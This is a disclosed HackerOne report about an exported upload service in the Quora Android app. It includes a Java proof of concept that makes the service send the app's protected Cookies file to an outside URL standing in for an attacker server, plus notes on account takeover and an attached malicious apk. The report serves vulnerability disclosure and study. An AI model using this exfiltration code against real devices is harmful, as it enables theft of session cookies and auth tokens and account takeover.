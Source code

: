 # [Quora Android] Possible to steal arbitrary files from mobile device

## Report Details
- **Report ID**: 258460
- **URL**: https://hackerone.com/reports/258460
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-08-09T22:24:55.836Z
- **Disclosed**: 2017-08-30T18:35:24.358Z

## Reporter
- **Username**: bagipro
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: quora

## Vulnerability Information
**Summary:**
Service
```xml
<service android:enabled="true" android:exported="true" android:name="net.gotev.uploadservice.UploadService"/>
```
enabled and exported. If it's exported, it means that any third party application can access it and send arbitrary data into it.

The following code sends main database file to arbitrary server (I used http://google.com/zaheck):
```java
        UploadTaskParameters params = new UploadTaskParameters();
        params.setId("1337");
        params.setServerUrl("http://google.com/zaheck");
        try {
            params.addFile(new UploadFile("/data/data/com.quora.android/app_webview/Cookies"));

        }
        catch(FileNotFoundException e) {
            throw new IllegalStateException(e); /* should be never thrown because not checked on the client side */
        }

        Intent intent = new Intent("net.gotev.uploadservice.action.upload");
        intent.setClassName("com.quora.android", "net.gotev.uploadservice.UploadService");
        intent.putExtra("taskClass", "net.gotev.uploadservice.MultipartUploadTask");
        intent.putExtra("multipartUtf8Charset", true);
        intent.putExtra("httpTaskParameters", new HttpUploadTaskParameters());
        intent.putExtra("taskParameters", params);
        startService(intent);
```
In the result protected file ```/data/data/com.quora.android/app_webview/Cookies``` which is not accessible to any application besides yours is sent to the attacker. It's really serious vulnerability which allows to takeover accounts. It can be used by any third party installed application on the same device. On the newest Androids it also can be exploited via Instant Apps directly from a web-browser (installation of an app is not required).

**Description (Include Impact):**
I believe it's not your vulnerability, but the gotev's library you use. Anyway, attacker can steal files with settings, cookies (even httpOnly, it doesn't matter), google authorization token is stored in shared_prefs file, which also can be stolen

PoC:
{F211064}

This file contain sensitive cookies
{F211066}

### Steps To Reproduce
 I attached an apk file which sends ```/data/data/com.quora.android/app_webview/Cookies``` to http://google.com/zaheck

Install apk and open it, file with all cookies will be sent automatically to attacker provided URL


## Attachments
- 2017-08-10_01-13-31.jpg
- 2017-08-10_01-21-39.jpg
- app-release.apk
